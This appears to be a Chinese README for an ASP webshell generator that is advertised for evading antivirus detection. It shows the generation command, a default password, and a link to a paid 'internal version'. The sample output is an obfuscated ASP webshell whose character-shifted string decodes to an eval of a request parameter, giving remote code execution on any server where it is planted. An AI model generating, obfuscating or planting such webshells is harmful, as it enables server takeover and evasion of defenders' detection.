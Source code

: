 # 2019.8.14

已知免杀已失效，获取星球内部版请戳

https://yzddmr6.tk/2019/08/13/webshell-venom-notice/

## 用法


`python3 asp_venom.py > test.asp`


即在当前目录下生成test.asp

## 默认密码:yzddmr6

可自行修改

## 生成样例:

```
<%
<!--
Function Hsnh(Bjhu):
	Bjhu = Split(Bjhu,"|")
	For x=1 To Ubound(Bjhu)
		Hsnh=Hsnh&Chr(Bjhu(x)-31)
	Next
End Function
EXecutE(Hsnh("|132|149|128|139|63|145|132|144|148|132|146|147|71|65|152|153|131|131|140|145|85|65|72"))
-->
%>
```
